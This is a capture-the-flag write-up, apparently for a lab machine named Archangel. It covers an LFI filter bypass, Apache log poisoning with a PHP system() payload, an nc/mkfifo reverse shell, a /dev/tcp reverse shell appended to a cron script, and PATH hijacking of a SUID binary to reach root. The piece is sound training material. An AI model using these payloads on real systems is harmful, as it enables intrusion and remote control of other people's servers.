# Archangel

#Linux #WebExploitation #LFI #PrivEsc 

## Reconnaissance 

I started running nmap and I got the result:

```
$ nmap -sV -Pn 10.67.171.210 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-16 05:01 EST
Nmap scan report for 10.67.171.210
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accessing the main page, I got this following page.

<figure><figcaption></figcaption></figure>

## Exploiting

I noticed that it was displaying a new domain in "Send us a mail", `mafia.thm`. So I added this to `/etc/hosts`.

Searching for possible directories and files, I found `robots.txt`, which lead us to a file `/test.php`.

<figure><figcaption></figcaption></figure>

Clicking the button loads a file called `mrrobot.php`, which returns a phrase "Control is an illusion". There appears to be an LFI.


<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

Intercepting the request using Burpsuite, I tried to load `/etc/passwd` file to check if it was vulnerable to an LFI attack. On the first attempt, it didn't work properly. I tried some PHP Wrappers like `php://filter`, but it didn't work either.

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

Of all my attempts, the one that worked was include the `mrrobot.php` file using `php://filter`. I was able to read the code on that page and check if it had any kind of filter.

<figure><figcaption></figcaption></figure>

As I suspected, there is a filter that checks if the file path includes `../..`, and if it does, it will be blocked.

<figure><figcaption></figcaption></figure>

In order to bypass that, I added a slash `/` and that way I was able to include any files I want (including other `/` is a valid syntax for reading a file in Linux).

<figure><figcaption></figcaption></figure>

The idea here is to infect the log and see if I can get a reverse shell. First, I tried infecting with a `id` command and it worked successfully.

```bash
$ curl -H "User-Agent: <?php echo system('id'); ?>" http://mafialive.thm
```

<figure><figcaption></figcaption></figure>

Now, I can get a reverse shell.

```bash
$ curl -H "User-Agent: <?php system(\$_GET['shell']); ?>" http://mafialive.thm
```

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//../var/log/apache2/access.log&shell=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.183.77%201337%20%3E%2Ftmp%2Ff
```
<figure><figcaption></figcaption></figure>

Reading `user.txt` flag.
<figure><figcaption></figcaption></figure>

## Shell as Archangel

On `/etc/crontab` indicates this `/opt/helloworld.sh` runs with Archangel's privilege in 1 minute

<figure><figcaption></figcaption></figure>

We can take a look at this file:

```
www-data@ubuntu:/opt$ cat helloworld.sh 
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt    

www-data@ubuntu:/opt$ bash helloworld.sh 
helloworld.sh: line 2: /opt/backupfiles/helloworld.txt: Permission denied
```

```
www-data@ubuntu:/opt$ echo "sh -i >& /dev/tcp/192.168.130.101/1337 0>&1" >> helloworld.sh
```


<figure><figcaption></figcaption></figure>

Reading `user2.txt` flag.

<figure><figcaption></figcaption></figure>

## Privilege Escalation

Running Linpeas script, I found the file `backup`, using `strings` command we can see the binary is trying to execute a `cp` command.

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

We can take advantage of this by exporting a new path where our directory is searched in first and then get our own malicious binary executed with the SUID privileges (root privileges).

*Path before:*

```
archangel@ubuntu:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

*Path after:*

```
archangel@ubuntu:~/secret$ echo $PATH
/home/archangel/secret:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

<figure><figcaption></figcaption></figure>

Since we are root, I was able to read `root.txt` flag.

<figure><figcaption></figcaption></figure>